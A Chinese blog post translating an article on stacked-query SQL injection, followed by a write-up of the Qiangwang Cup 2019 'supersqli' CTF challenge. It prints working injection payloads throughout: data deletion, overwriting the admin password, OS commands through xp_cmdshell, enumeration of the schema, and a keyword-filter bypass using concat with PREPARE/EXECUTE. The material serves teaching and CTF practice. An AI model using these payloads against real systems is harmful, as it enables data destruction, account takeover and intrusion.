





堆叠注入🤒
堆查询注入🤒
堆注入🤒
🤔害，其实就是多语句注入，用分号。
这篇文章先翻译一个不知道从哪看来的讲堆叠注入的文章，und复现强网杯2019的一个题目
先翻译一下SQL注入网站中的一篇文章
Execute multiple statements in the same query to extend the possibilities of SQL injections.
在一个查询中执行多个语句，以扩展SQL注入的可能性。
Stacked queries provide a lot of control to the attacker. By terminating the original query and adding a new one, it will be possible to modify data and call stored procedures. This technique is massively used in SQL injection attacks and understanding its principle is essential to a sound understanding of this security issue.
堆叠注入为攻击者提供了很大的控制权。用结束原始的查询添加新语句的方式，就可能对数据进行改动，或者执行程序。很多SQL注入攻击都是使用这种方式，了解他的原理对正确了解这一安全问题很重要。
In SQL, a semicolon indicates that the end of a statement has been reached and what follows is a new one. This allows executing multiple statements in the same call to the database server. Contrary to UNION attacks which are limited to SELECT statements, stacked queries can be used to execute any SQL statement or procedure. A classic attack using this technique could look like the following.
在SQL语句中，分号意味着一段语句的结束，后面是另一段新的语句，这就允许在一个请求中执行多个语句。与UNION查询攻击对SELECT的限制相反，堆叠注入可以执行任何的SQL语句和程序，一个经典的攻击利用如下。
MALICIOUS USER INPUT.
1; DELETE FROM products
//恶意用户输入
GENERATED QUERY WITH MULTIPLE STATEMENTS. THE PARAMETER PRODUCTID WAS NOT SANITIZED.
SELECT * FROM products WHERE productid=1; DELETE FROM products
//构成的恶意语句
THE PARAMETER PRODUCTID WAS NOT SANITIZED.的意思是PRODUCTID参数未清除。
When the query is executed, a product is returned by the first statement and all products are deleted by the second.
请求执行后，返回第一个语句查询的id为1的product，第二步删除表中所有内容。
It is important to mention that query stacking does not work in every situation. Most of the time, this kind of attack is impossible because the API and/or database engine do not support this functionality. Insufficient rights could also explain why the attacker is unable to modify data or call some procedures.
值得一提的是堆叠注入不是在所有情况下都可以用，不支持的API或数据库就不可以用，权限不足也可能使得不能修改数据或执行程序。
Below is a list of query stacking support by the principal API and DBMS.
以下是支持堆叠注入的API或数据库。
STACKED QUERY SUPPORT.
MySQL/PHP - Not supported (supported by MySQL for other API).
SQL Server/Any API - Supported.
Oracle/Any API - Not supported.
| API and DBMS | SUPPORT |
|---|---|
| MySQL/PHP | 不支持，支持MySQL和其他API |
| SQL Server/Any API | 支持 |
| Oracle/Any API | 不支持 |
Even though we mentioned earlier that stacked queries can add any SQL statement, this injection technique is frequently limited when it comes to adding SELECTs. Both statements will be executed but software code is usually designed to handle the results returned by only one query. Consequently, the injected SELECT query will often generate an error or its results will simply be ignored. For this reason it is recommended to use UNION attacks when trying to extract data.
尽管我们前面说过堆叠注入可以添加任意的SQL语句，但是对于添加SELECT的语句时，这种注入方式经常受限。虽然两条语句都可以执行，但是程序通常只返回一个语句的查询数据，注入SELECT语句经常会出错或者结果被忽略，因此建议使用UNION注入提取数据。
One last thing needs to be mentionned: to inject a valid SQL segment, the attacker will need to know some basic information such as table names, column names, etc. For more information refer to the section dedicated to information gathering.
最后需要提醒的是注入SQL时，攻击者需要知道一些基本的信息，比如数据表名、数据库列名之类的。更多的信息，参照信息收集的部分。
The example presented at the beginning of the article demonstrates how query stacking can be used to delete information from the database. Instead of destroying data, attackers usually try to steal it or grant themselves high privileges on the system. A frequent approach is to change the administrator’s password. The example below illustrates a classic data modification using SQL injection.
文章前面的例子展示了堆叠注入可以删除数据库信息，比起这个，攻击者通常会尝试窃取数据，或者提升自己的系统权限。一个常规操作就是修改系统管理员的密码，下面的例子将演示一个经典的SQL注入修改操作。
USER INPUT.
1; UPDATE members SET password='pwd' WHERE username='admin'
//用户恶意输入
GENERATED QUERY.
SELECT * FROM products WHERE categoryid=1; UPDATE members SET password='pwd' WHERE username='admin'
//构成的恶意语句
Calling a procedure can bring SQL injections attacks to a whole new level. Nowadays, many database management systems come with built in packages of functions and procedures to simplify development and provide new functionalities. Therefore, it becomes possible to communicate with network, control the operating system and do even more from a simple SQL statement.
执行程序可以把SQL注入攻击提高一个档次。如今很多数据库管理系统会将方法和过程打包，以简化开发，提供新功能，因此就可能与互联网交互，通过简单的SQL语句控制操作系统或者更深入。
As there is no convention between DBMS regarding to packages and procedures name, the attacker will have to identify which database system is used before trying to call a built-in procedure. From there, the principle is the same as examples presented earlier except that the injected query is a stored procedure call. Let see how it can be done with the use of xp_shellcmd; a SQL Server’s specific command which allows executing operating system calls.
由于数据库的包和过程名没有关联，因此在执行程序前攻击者必须确定被攻击数据库的种类。这个原理和之前提到的例子中的需要确定表名等信息一样，只不过查询语句是执行存储的程序。xp_shellcmd是一个SQL Server的特殊语句，可以执行操作系统程序，来看一下执行程序是怎么做到的。
USER INPUT.
1; exec master..xp_cmdshell 'DEL important_file.txt'
//用户恶意输入
GENERATED QUERY.
SELECT * FROM products WHERE categoryid=1; exec master..xp_cmdshell 'DEL important_file.txt'
//构成的恶意语句
The query above will return a product list and delete “important_file.txt”. A much more complex attack could have been launched to take control over the operating system, but this is outside the scope of this article. The injected statement is not limited to built-in packages; a user-defined procedure could also be called. This approach is not frequent but it could be useful in some specific cases.
以上查询会返回categoryid=1的产品列表，并删除important_file.txt，更复杂的攻击可能会获得操作系统的控制，但是这超出了这篇文章的范围。注入语句也不限于内置的包，用户自定义的程序也可能被利用执行，这个攻击方法不是很普适但在某些特殊情况下是有用的。
一个例子来自强网杯2019，复现环境，clone放到ubuntu里，启动docker

输入一个小小的单引号

报错了，说明可能存在SQL注入漏洞
1' or '1'='1 #

返回了一些数据，说明存在SQL注入漏洞无疑
1' order by 3 #
返回错误
1' order by 2 #

返回正确，可以判断该表有两列
1' union select 1,2 #

select关键词被过滤了，加/**/，替换大小写都不能绕过去。
这时尝试堆叠注入，尝试列出所有数据库：
1';show databases; #

有ctftraining、information_schema、mysql、performance_schema、supersqli、test6个数据库
尝试列出当前数据库的表：
1';show tables; #

有1919810931114514、words两个表。
尝试获取表的列名：
1';show columns from words;

1';show columns from `1919810931114514`;

接下来就要读取数据了，但是关键词都被过滤了。
看到两种解题思路，一种是把关键词分开写然后拼接，一种是将1919810931114514重命名为words，将flag改为id。感觉重命名了以后就算是修改了原本数据，所以选择拼接关键词的方法。
1';use supersqli;set @sql=concat('s','elect `flag` from `1919810931114514`');PREPARE stmt1 FROM @sql;EXECUTE stmt1;

💁加单引号试探，有时候也可以试一下没有单引号或者括号或者双引号，原理就是尝试闭合前一个语句
💁判断列数，order by
💁select 列数，发现关键字被过滤，尝试堆叠注入
💁列出数据库名
💁列出表名
💁列出列名
💁想办法读数据，这里的操作是关键词绕过